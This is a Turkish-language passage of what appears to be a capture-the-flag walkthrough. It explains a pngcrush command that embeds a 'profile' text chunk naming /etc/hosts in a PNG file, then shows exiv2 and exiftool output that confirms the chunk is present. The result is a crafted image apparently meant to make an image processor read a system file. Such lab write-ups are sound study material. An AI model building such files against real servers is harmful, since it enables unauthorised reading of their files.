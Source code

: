 
### Açıklama:

1. **`pngcrush`**:
    
    - **PNG** dosyalarını optimize etmek ve üzerinde değişiklikler yapmak için kullanılan bir araçtır.
2. **`-text a`**:
    
    - Bir **text chunk** (metin parçası) eklemek için kullanılır.
    - `a`, eklenecek olan metni temsil eder (anahtar kelime ve değer).
3. **`"profile"`**:
    
    - Bu, eklenen metinsel bilginin anahtar kelimesidir. Bu durumda, `"profile"` adında bir **keyword** ekleniyor.
4. **`"/etc/hosts"`**:
    
    - Anahtar kelimeyle ilişkili metin içeriğidir. Burada, `/etc/hosts` dosyasının yolu metin içeriği olarak eklenmiştir.
5. **`poc.png`**:
    
    - İşlenecek olan hedef **PNG** dosyasıdır.

### Komut Ne Yapıyor?

1. **`poc.png`** dosyasına, `"profile"` anahtar kelimesi ile ilişkili olarak `/etc/hosts` metin bilgisini içeren bir **text chunk** ekliyor.
2. İşlem sonucunda, dosyayı sıkıştırarak veya optimize ederek çıktı dosyasını oluşturuyor. Çıktı genellikle `pngout.png` adıyla kaydedilir.

---


Bu, tEXt bölümündeki meta verilere sahip pngout.png adında yeni bir dosya oluşturur:

```
oxdf@hacky$ exiv2 -pS pngout.png 
STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | .......z....                   | 0x727a55a2
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | ......                         | 0xa0bda793
     111 | tIME  |       7 | .......                        | 0x9208ee1c
     130 | IDAT  |   20013 | x.....%.U.Z.N..n..&j...A3....a | 0x73423cfd
   20155 | tEXt  |      37 | date:create.2023-05-15T20:26:1 | 0x2850565c
   20204 | tEXt  |      37 | date:modify.2023-05-15T20:26:1 | 0x590deee0
   20253 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
   20283 | IEND  |       0 |                                | 0xae426082
```

exiftool bunu da gösterecektir:

```
oxdf@hacky$ exiftool pngout.png
ExifTool Version Number         : 12.40
File Name                       : pngout.png
...[snip]...
Profile                         : /etc/hosts
Image Size                      : 183x122
Megapixels                      : 0.022
```
